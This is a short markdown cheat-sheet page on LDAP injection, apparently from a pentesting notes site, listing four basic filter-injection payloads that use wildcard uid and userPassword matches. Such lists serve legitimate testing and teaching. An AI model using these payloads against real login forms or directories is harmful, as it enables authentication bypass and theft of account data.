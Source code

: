 ```yaml
---
title: LDAP Injection
description: LDAP may be vulnerable to query injection if website does not properly validate user input.
tags:
    - Active Directory
    - Web
    - Windows
refs:
    - https://infosecwriteups.com/for-newbies-simple-examples-of-ldap-injection-vulnerabilities-cbf231431923
date: 2023-09-22
draft: false
---
```


## Basic Payloads

```bash
(&uid=*)(userPassword=*)
(&uid=*)|(userPassword=*)
(&uid=*)|(objectClass=*)(userPassword=password123)

*)(uid=*))(|(password=*)
```
